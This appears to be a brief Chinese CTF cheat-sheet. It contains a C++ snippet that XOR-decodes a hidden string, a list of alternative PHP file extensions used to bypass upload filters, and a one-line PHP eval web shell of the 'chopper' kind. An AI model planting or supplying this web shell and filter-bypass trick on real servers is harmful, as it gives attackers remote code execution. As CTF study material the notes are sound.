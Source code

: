 ##  将整数强制拆分为 string
```cpp
#include<cstdio>
#include<cstring>
#include<string>
using namespace std;
int main(){
	long long v7=28537194573619560;
	char *p=(char *)&v7;//chr指针
	char str[30];
	strcpy(str,":\"AL_RT^L*.?+6/46");
	for(int i=0;i<19;i++){
		str[i]=p[i%7]^str[i];
		printf("%c",str[i]);
	}
	return 0;
}
```
-----

## php 文件别名
php2, php3, php4, php5, phps, pht, phtm, phtml

```php
<?php @eval($_POST['chopper']);?>
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0MTA2ODY2MzcsMzM1NTgwODA4XX0=
-->